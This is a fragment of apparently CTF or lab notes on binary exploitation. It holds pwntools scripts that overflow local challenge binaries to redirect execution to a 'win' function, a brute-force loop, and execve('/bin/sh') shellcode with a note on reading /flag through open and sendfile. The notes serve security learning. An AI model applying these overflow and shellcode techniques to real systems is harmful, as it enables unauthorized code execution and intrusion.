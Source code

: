```python
# 
io.interactive()

```
```sh
for i in {1..20};do python /tmp/a.py; done
```
## string lengths (easy)
```python
import struct
from pwn import *

# context(os='linux', arch='amd64', log_level='debug')
io=process('binary-exploitation-null-write-w')

def sd(s):
	io.send(s)

### code 
win=0x1c1f
pl=b'b\0'*(60)+struct.pack("<H",win)
sd(pl)
### 
# 
io.interactive()

```
## string lengths (hard)
```python
import struct
from pwn import *

# context(os='linux', arch='amd64', log_level='debug')
io=process('binary-exploitation-null-write')

def sd(s):
	io.send(s)

### code 
win=0x1b80
pl=b'\0'+b'b'*(0x70+7)+struct.pack("<H",win)
sd(pl)
### 
# 
io.interactive()

```
## basic shellcode
`/bin/sh`只能拿到非root的shell
```py
shellcode = asm('''
mov rax, 0x68732f6e69622f
push rax
mov rdi, rsp
mov rsi, 0
mov rdx, 0
mov rax, SYS_execve
syscall
''')
```
换成`fd=open\('/flag',NULL\);sendfile(1,fd,0,1000)`打开文件并输出到stdout